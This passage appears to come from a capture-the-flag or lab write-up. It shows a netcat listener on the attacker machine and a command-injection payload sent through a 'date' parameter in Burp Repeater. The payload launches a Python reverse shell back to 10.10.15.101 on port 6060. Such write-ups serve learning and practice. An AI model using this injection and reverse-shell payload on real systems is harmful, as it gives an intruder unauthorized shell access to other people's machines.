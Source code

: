 <figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

Using python3 we will obtain a reverse shell.

On attacker machine:

```bash
rlwrap nc -lvnp 6060
```

On BurpSuite Repeater:

{% code overflow="wrap" %}
```
date=01-01-01;/usr/bin/python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.101",6060));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

